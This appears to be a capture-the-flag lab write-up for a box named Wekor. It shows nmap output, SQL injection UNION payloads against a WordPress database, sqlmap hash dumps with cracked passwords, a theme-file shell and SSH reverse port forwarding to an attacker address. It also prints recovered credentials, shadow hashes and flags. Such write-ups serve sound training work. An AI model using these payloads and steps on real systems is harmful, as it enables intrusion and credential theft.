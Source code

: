 # WEKOR

![](../.gitbook/assets/32236ed9b5ca4a10b753a2659374707b.png)

## NMAP SCAN

```text
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:c3:ce:af:07:fa:e2:8e:29:04:e4:cd:14:6a:21:b5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDn0l/KSmAk6LfT9R73YXvsc6g8qGZvMS+A5lJ19L4G5xbhSpCoEN0kBEZZQfI80sEU7boAfD0/VcdFhURkPxDUdN1wN7a/4alpMMMKf2ey0tpnWTn9nM9JVVI9rloaiD8nIuLesjigq+eEQCaEijfArUtzAJpESwRHrtm2OWTJ+PYNt1NDIbQm1HJHPasD7Im/wW6MF04mB04UrTwhWBHV4lziH7Rk8DYOI1xxfzz7J8bIatuWaRe879XtYA0RgepMzoXKHfLXrOlWJusPtMO2x+ATN2CBEhnNzxiXq+2In/RYMu58uvPBeabSa74BthiucrdJdSwobYVIL27kCt89
|   256 4d:99:b5:68:af:bb:4e:66:ce:72:70:e6:e3:f8:96:a4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKJLaFNlUUzaESL+JpUKy/u7jH4OX+57J/GtTCgmoGOg4Fh8mGqS8r5HAgBMg/Bq2i9OHuTMuqazw//oQtRYOhE=
|   256 0d:e5:7d:e8:1a:12:c0:dd:b7:66:5e:98:34:55:59:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJvvZ5IaMI7DHXHlMkfmqQeKKGHVMSEYbz0bYhIqPp62
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 9 disallowed entries 
| /workshop/ /root/ /lol/ /agent/ /feed /crawler /boot 
|_/comingreallysoon /interesting
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/7b54d43581644d768f9c521199ab6523.png)

### ROBOTS.TXT

```text
] Disallow: /workshop/
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /root/
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /lol/
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /agent/
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /feed
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /crawler
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /boot
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /comingreallysoon
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /interesting
```

### /COMINGREALLYSOON

```text
Welcome Dear Client! We've setup our latest website on /it-next, Please go check it out! If you have any comments or suggestions, please tweet them to @faketwitteraccount! Thanks a lot !
```

### IT-NEXT

![](../.gitbook/assets/dfed32c550d542ee81631843fcb6250d.png)

### POSSIBLY USERS

![](../.gitbook/assets/f427f556b72445858594400e83293743.png)

### SQLi

![](../.gitbook/assets/a824dce2484a4beda9b09437f67c984c.png)

#### DATABASES

![](../.gitbook/assets/1ed7bd8236304b9c80b15b4c47e6c90f.png)

```text
' UNION SELECT table_schema,table_name,null from information_schema.tables where table_schema='wordpress';-- -
```

![](../.gitbook/assets/491e33a1ef0b4ca7a975eb6d1637b2ff.png)

```text
' UNION SELECT column_name,null,null from information_schema.columns where table_schema='wordpress' and table_name='wp_users';-- -
```

![](../.gitbook/assets/68684983f3ea4afcb9f5c8e70129d1eb.png)

### SQLMAP

![](../.gitbook/assets/bc03b0c77e334e7eb641be511ef5dbc9.png)

```text
$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B. | admin@wekor.thm   | admin
$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10:rockyou | jeffrey@wekor.thm | wp_jeffrey
$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/:soccer13 | yura@wekor.thm    | wp_yura
$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/:xxxxxx | eagle@wekor.thm   | wp_eagle
```

[http://site.wekor.thm/wordpress](http://site.wekor.thm/wordpress)

## WORDPRESS

![](../.gitbook/assets/deb2e86da3ed422eb75dfebe05a10862.png)

* LOGIN with wp\_yura

![](../.gitbook/assets/0e1c630b039444b3af2834837b68bc71.png)

![](../.gitbook/assets/8330d59f79f24006bdaa6f5a41c711c0.png)

## GET A SHELL

![](../.gitbook/assets/725755d3208245c5b34b937e016eb17d.png)

```text
http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/404.php
```

![](../.gitbook/assets/8b86f9e8534b4e34bae4699b2662a6aa.png)

## MACHINE ENUMERATION

### USERS WITH CONSOLE

```text
root:x:0:0:root:/root:/bin/bash
Orka:x:1001:1001::/home/Orka:/bin/bash
```

### WP-CONFIG.PHP

![](../.gitbook/assets/eb6be71d47ee496ba228161e4bc769cc.png)

```text
root:root123@#59
```

### SSH REMOTE PORT FORWARDING

#### PORT 631 CUPS \(RABBIT HOLE\)

```text
ssh -R 8083:127.0.0.1:631 livestep@10.9.214.87
```

![](../.gitbook/assets/d0ede68700da4af0ad53960be64a8ddd.png)

#### PORT 11211 MEMCACHED

```text
ssh -R 8083:127.0.0.1:11211 livestep@10.9.214.87
```

![](../.gitbook/assets/af84c22d2b034577b5513720810ac750.png)

![](../.gitbook/assets/44ad124ba4284398be75e06d3013f745.png)

```text
Orka:OrkAiSC00L24/7$
```

![](../.gitbook/assets/db6d665133de4cc6a484288c6776fe7d.png)

![](../.gitbook/assets/0b1a866136144fd19fadd410e37a1fdc.png)

![](../.gitbook/assets/bb58a9afa5234f65ba6b8099b9f4ad63.png)

![](../.gitbook/assets/fcbce805027c4cbc870daa388420d470.png)

![](../.gitbook/assets/4bcb0583739148aaae2d57e54d85463b.png)

![](../.gitbook/assets/dc05908d22f1414db8c40a5b1137e89f.png)

![](../.gitbook/assets/d280639cacee4818829a84f0c1c69d33.png)

## CREDS

```text
root:$6$U74SIJ/h$mPFIyr3eHrBl2TC09.NcIc9xz8IoLyM0zjrv1.yFzoyhOCXj0k0UHUILfWP4rIwLVfsYwgjTiZ0k.wqVQGXlC1:18455:0:99999:7:::
Orka:$6$R7T8IDoy$D8HwL91F7FWoDhqH7bgIHrr8twG0D0RIMUOUuFAYWq9TgcN5g5crzyyNPbeukHQRu.Leo5Ykuhol4SLuMr11M0:18455:0:99999:7:::
```

## FLAGS

### USER

```text
1a26a6d51c0172400add0e297608dec6
```

### ROOT

```text
f4e788f87cc3afaecbaf0f0fe9ae6ad7
```

